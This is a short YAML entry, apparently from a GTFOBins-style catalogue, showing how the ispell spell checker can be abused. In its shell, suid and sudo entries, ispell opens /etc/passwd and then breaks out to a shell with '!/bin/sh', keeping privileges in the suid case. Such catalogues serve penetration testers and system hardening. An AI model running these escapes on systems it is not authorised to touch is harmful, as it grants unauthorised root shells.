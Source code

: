 ```yaml
---
functions:
  shell:
    - code: |
        ispell /etc/passwd
        !/bin/sh
  suid:
    - code: |
        ./ispell /etc/passwd
        !/bin/sh -p
  sudo:
    - code: |
        sudo ispell /etc/passwd
        !/bin/sh
---
```

